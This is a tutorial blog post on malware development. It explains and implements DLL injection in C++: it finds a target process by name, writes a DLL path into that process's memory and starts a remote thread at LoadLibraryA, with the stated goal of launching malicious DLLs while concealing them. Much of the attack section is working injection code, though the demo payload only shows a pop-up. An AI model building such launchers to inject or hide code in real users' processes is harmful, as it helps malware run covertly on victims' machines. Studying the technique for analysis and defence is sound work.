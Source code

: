 ```yaml
---
title: Malware Launching - DLL Injection
categories:
- Malware Development
description: DLL Injection to execute malicious DLL files
---
```


# Malware Launching - DLL Injection

## 1. Context


Ever since I started malware development, I've always been interested in the concept of malware launching.


The idea is that malware launcher is an a type of malware that can download/unpack and execute a malware. The goal of the launcher is to set things up so the malicious activity of the actual malware is concealed from users.


In this blog post, I'll attempt to develop and recreate a launcher that I recently analyze that uses one of the simplest process injection technique, called DLL Injection.


## 2. Concept


The concept of DLL injection is just like how it sounds, injecting code from a DLL into a running process. 


Let's say that we somehow have got a malicious DLL file on our machine with the name **Malware.dll**. Maybe it's been downloaded at the same time with the launcher, or the launcher can download it. The point is, it exists on our machine.


DLL files, although are PE files, can't be execute on their own. Usually, they export their functions so other executables can use them. However, DLL files do have a ***main*** function!


According to [MSDN](https://docs.microsoft.com/en-us/windows/win32/dlls/dllmain), when the system starts or terminates a process or thread, it calls the entry-point function (DLL main) for each loaded DLL using the first thread of the process. Basically, if a process loads a DLL, then DLL main will be called. Most of the time, normal DLL files do not use this function because it is rarely related to their functionality.


However, DLL main is also called when a process/thread calls [LoadLibrary](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)!


Therefore, the technique of DLL injection requires that we
  - First, get the address of **LoadLibrary** from **Kernel32.dll**
  - Second, push the string name of the malicious DLL with the malicious main function into virtual memory of the process using [VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) and [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).
  - Third, create a new thread of that process with the entry point of the address of **LoadLibrary** and the command line argument of the string name of the malicious DLL using [CreatRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread).


When this thread executes, the entry point will cause the thread to call **LoadLibrary** with the parameter of the DLL file, and the DLL main function will be executed!


This injection will completely hide the DLL functionality from Task Manager or Process Explorer because it will be ran as the parent process that we created.


## 3. Prepare DLL file


Using Visual Studio, we can create a DLL project to write our own DLL. Here is my simple DLL main function.


![alt text](/uploads/DLL.PNG)


Basically, when ***ul_reason_for_call*** equals to **DLL_PROCESS_ATTACH**, we know the library is loaded when the process just starts. 


If this is the case, then we create a simple pop-up with [MessageBoxA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messageboxa);


We will use this DLL to inject into a process of our choice later, and we can check if the injection is successful by checking for this pop-up.


## 4. DLL Injection Code


For the injection code, first we need 2 things:
  - **processName**: the name of the process we want to inject(**svchost.exe, python.exe, or whatever**)
  - **dllFileName**: the name of the dll file with the malicious main function


#### I. Find process ID


First, we need to find the process ID of the process with **processName**.


We can do this by calling [CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot) to take a snapshot of all of the currently running processes.


Next, we can use [Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first) and [Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next) to iterate through this process list from the snapshot and check if any of the process has the same name as **processName**.


If we find it, we record its process ID.


``` cpp
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);   // Snapshot of processes

	if (hSnapshot == INVALID_HANDLE_VALUE) {
		printError("CreateToolhelp32Snapshot");
		return;
	}

	LPPROCESSENTRY32 processEntry = (LPPROCESSENTRY32)(&PROCESSENTRY32());

	processEntry->dwSize = sizeof(PROCESSENTRY32);
	if (Process32First(hSnapshot, processEntry) == 0) {
		printError("Process32First");
		CloseHandle(hSnapshot);
		return;
	}

	DWORD dwProcessID = 0;
	while (Process32Next(hSnapshot, processEntry) != 0) {
		wstring temp(processEntry->szExeFile);
		string name(temp.begin(), temp.end());
		if (!strcmp(name.c_str(), processName)) {                   // if process name matches, save process ID
			dwProcessID = processEntry->th32ProcessID;
			printf("FIND process ID of 0x%x for %s!!\nStarting injection\n", dwProcessID, name.c_str());
			break;
		}
	}
```


#### II. Open process and write memory


Next, we need to get a handle of the process using [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess).


From this, we can alloc space in the process's virtual memory space and write the DLL name there. 


The reason we need to do this is that the process has its own virtual memory, and the only way for it to use our **dllFileName** is by writing the file name into its own memory.


We can accomplish this using [VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) and [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).


``` cpp
    HANDLE hVictimProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessID);
	if (hVictimProcess == INVALID_HANDLE_VALUE) {
		printError("OpenProcess");
		CloseHandle(hSnapshot);
		return;
	}

	
	LPVOID nameBuffer = VirtualAllocEx(hVictimProcess, NULL, strlen(dllFileName), MEM_COMMIT, PAGE_READWRITE);
	if (!nameBuffer) {
		printError("VirtualAllocEx");
		CloseHandle(hVictimProcess);
		CloseHandle(hSnapshot);
		return;
	}

    // Write dll name into virtual memory of the process
	if (!WriteProcessMemory(hVictimProcess, nameBuffer, dllFileName, strlen(dllFileName), NULL)) {
		printError("WriteProcessMemory");
		CloseHandle(hVictimProcess);
		CloseHandle(hSnapshot);
		return;
	}
```


#### III. Get the address of LoadLibraryA


Next, we need to set the entry point of our to-be-created thread to **LoadLibraryA** so the first thing it executes is this function.


To do this, we need to get a handle to **Kernel32.dll** through [GetModuleHandle](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea).


Then, using this handle, we can retrieve the address of **LoadLibraryA** through [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress).


``` cpp
    HMODULE hKernel32 = GetModuleHandle(L"Kernel32.dll");
	if (!hKernel32) {
		printError("GetModuleHandle");
		CloseHandle(hVictimProcess);
		CloseHandle(hSnapshot);
		return;
	}
	FARPROC fpLoadLibrary = GetProcAddress(hKernel32, "LoadLibraryA");
	DWORD dwInjectedProcessID = 0;

	if (!fpLoadLibrary) {
		printError("GetProcAddress");
		CloseHandle(hVictimProcess);
		CloseHandle(hSnapshot);
		return;
	}
```


#### IV. Injection!!


The only thing left to do is calling [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread).

**CreateRemoteThread** takes in these parameters:
  - **hProcess**: pass in *hVictimProcess* from **OpenProcess**
  - **lpThreadAttributes**: pass in NULL because we don't care about this
  - **dwStackSize**: pass in 0 to use the default stack size
  - **lpStartAddress**: pass in *fpLoadLibrary* so the thread's entry point will be at **LoadLibrary**
  - **lpParameter**: pass in *nameBuffer* so the thread will call **LoadLibrary(nameBuffer)**
  - **dwCreationFlags**: pass in 0 to have the thread runs immediately after execution
  - **lpThreadId**: pass in a pointer to a new thread ID, this is not necessary, but we can do it if we want.


``` cpp
	HANDLE hInjectedThread = CreateRemoteThread(hVictimProcess, NULL, 0, (LPTHREAD_START_ROUTINE)fpLoadLibrary, nameBuffer, 0, &dwInjectedProcessID);
	if (!hInjectedThread) {
		printError("CreateRemoteThread");
		CloseHandle(hVictimProcess);
		CloseHandle(hSnapshot);
		return;
	}
```

And here should be the result. I'm creating a **python.exe** process running an infinite loop, and I will attempt to inject my own DLL into this process and have the pop-up shows up.

{% include figure.html image="/uploads/dll_injection_result.gif" position="center" %}
## 5. Wrapping up


That's all there is to DLL injection!

It's a pretty simple yet useful concept to launch malicious DLLs. Feel free to check my Github [repo](https://github.com/cdong1012/DLLInjection) for this project here!
